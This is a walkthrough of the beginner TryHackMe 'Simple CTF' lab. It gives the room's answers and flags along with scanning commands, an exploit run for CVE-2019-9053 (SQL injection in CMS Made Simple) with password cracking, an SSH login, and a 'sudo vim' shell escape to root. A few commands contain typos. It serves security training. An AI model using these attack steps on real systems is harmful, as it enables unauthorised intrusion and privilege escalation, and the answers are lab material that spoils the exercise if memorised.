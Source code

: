 # <div align="center">[Simple CTF](https://tryhackme.com/r/room/easyctf)</div>
<div align="center">Beginner level ctf</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/a035c702-c26a-4654-93bf-0115e10f9f1b" height="200"></img>
</div>

## Task 1. Simple CTF

Deploy the machine and attempt the questions!
### How many services are running under port 1000?
```
2
```
* ```nmap -sC -Cv 10.10.25.90```
### What is running on the higher port?
```
ssh
```

### What's the CVE you're using against the application?
````
CVE-2019-9053
````
* ```diresearch -u 10.10.10.10 ```
As a result, we will find a page ```http://10.10.10.10/simple/``` when we go to it, in the lower left corner,
we see what CMS this page was created, it turned out to be "CMS Made Simple 2.2.8" google - CMS Made Simple 2.2.8. [Exploit](https://github.com/Esther7171/THM-Walkthroughs/blob/main/Room/Simple-CTF/exploit.py)
The very first page https://www.exploit-db.com/exploits/46635 shows that this The CMS is vulnerable to SQL injection and a python exploit has been prepared for this vulnerability (you can find a copy of the file https://github.com/BEPb/tryhackme/blob/master/01.easy/Simple%20CTF/exploit.py) command to download the file to

## To what kind of vulnerability is the application vulnerable?
```
sqli
```
### What's the password?
```
secret
```
* ```pip install termcolor```
* ```python exploit.py -u http://10.10.25.90/simple --crack -w /usr/share/wordlists/rockyou.txt```
### Where can you login with the details obtained?
```
ssh
```
* ```ssh mitch@10.10.10.10 -p 2222```
### What's the user flag?
```
G00d j0b, keep up!
```
* ```cat user.txt```
### Is there any other user in the home directory? What's its name?
```
sunbath
```
* ```cd .. && ls```
### What can you leverage to spawn a privileged shell?
```
vim
```
* ```sudo -l```
* ```sudo vim -c ‘:!/bin/sh’```
### What's the root flag?
```
W3ll d0n3. You made it!
```
* ```cat /root/root.txt```

Done 😄

